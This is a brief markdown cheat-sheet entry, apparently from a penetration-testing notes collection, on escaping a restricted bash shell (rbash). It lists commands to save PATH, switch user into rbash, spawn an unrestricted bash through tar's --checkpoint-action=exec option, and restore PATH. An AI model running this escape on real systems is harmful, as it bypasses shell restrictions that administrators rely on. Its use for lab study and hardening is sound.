 ```yaml
---
title: "rbash"
date: 2024-7-9
tags: ["rbash", "shell", "escape", "bypass", "tar"]
---
```


---
### Abuse #1: tar to rbash Escape

```bash
# Before enter rbash
echo $PATH
```

```bash
# Enter rbash
su <USER> -
```

```bash
# rbash escape using tar
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```bash
# Paste the above $PATH (e.g.)
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

<br>